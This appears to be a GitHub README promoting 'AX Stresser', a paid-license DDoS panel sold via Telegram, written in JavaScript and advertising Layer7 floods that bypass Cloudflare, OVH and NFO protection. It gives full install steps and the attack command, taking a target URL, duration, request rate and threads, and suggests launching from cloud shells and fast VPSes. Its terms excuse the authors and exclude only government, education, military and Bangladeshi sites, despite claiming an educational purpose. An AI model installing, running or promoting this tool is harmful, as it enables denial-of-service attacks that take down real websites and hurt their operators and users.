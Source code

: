 <div align=center>
 
# 🚀 AX Stresser: Ultimate Powerful DDoS Panel 🚀

<p>
 <img src="https://img.shields.io/github/stars/hoaan1995/ZxCDDoS?color=%23DF0067&style=for-the-badge"/> &nbsp;
 <img src="https://img.shields.io/github/forks/hoaan1995/ZxCDDoS?color=%239999FF&style=for-the-badge"/> &nbsp;
 <img src="https://img.shields.io/github/license/hoaan1995/ZxCDDoS?color=%23E8E8E8&style=for-the-badge"/> &nbsp;
 
</p>

> Terminal only accepts ANSI color.<br>
> License Key: [Contact Me] -> https://t.me/KHALID_MODZ/<br>
<p align="center">  <a href="https://t.me/TeamAX_03"><img width="160" height="50" src="https://i.imgur.com/N7AK7XY.png"></a></p>
 
## Language</br>

 <img src="https://img.shields.io/badge/JavaScript-323330?style=for-the-badge&logo=javascript&logoColor=F7DF1E"/>
 </div>
 
 ## Logs</br>
 - Bypass CF
 - GET + POST Automatically Switch
 
## Screenshot
![lk](https://i.ibb.co/LNkqyPR/bandicam-2022-04-12-22-11-34-101.jpg)

# Tree
* [Read now pls](#README)
* [Info](#Info)
* [Setup](#Setup)
* [Credits](#Credits)
* [T.O.S](#TOS)
* [Contact](#Contact)

# README ♥️
Thank you for using, please help me press a star button, thank you very much.<br>
One star = continuously updating multiple methods
And This Tool Created By Team AX

# Info
- [x] Free To Use
- [x] Powerful
- [x] Hard
- [x] Methods for Layer7
- [x] Bypass (Cloudflare, OVH, NFO)  


# Setup
```sh
CentOS:
sudo yum update
sudo yum install epel-release
sudo yum install nodejs
sudo yum install git
npm install axios
git clone https://github.com/TeamAX03/AX-Stresser.git
cd AX-Stresser
node AX.js URL TIME REQ_PER_SEC THREADS LICENCE_KEY

Debain, Ubuntu:
sudo apt update
sudo apt install git
sudo apt install nodejs
sudo apt install npm
npm install axios
git clone https://github.com/TeamAX03/AX-Stresser.git
cd AX-Stresser
node AX.js URL TIME REQ_PER_SEC THREADS LICENCE_KEY

How to use: 
- Recommended in shell of google, azure,...
- Using vps with high speed will be stronger

pkg install nodejs
npm install axios
git clone https://github.com/TeamAX03/AX-Stresser.git
cd AX-Stresser
node AX.js URL TIME REQ_PER_SEC THREADS LICENCE_KEY

```

# TOS:
```sh
Do not attack government pages (.gov/.gob), educational pages (.edu) or the United States Department of Defense (.mil), 
the creator is not responsible for the damage caused by the attacks. 
remember: you are responsible for the attacks since this tool was created for educational purposes
And Don't Attack Bangladeshi Websites 
```

# CONTACT:
```sh
Help Team - Telegram: t.me/TeamAX_03
CEO Admin - t.me/KHALID_MODZ
Other Country Team - (HIDDEN)
Discord: Dynamic | KhalidMahmud#0210
Gmail: null
```
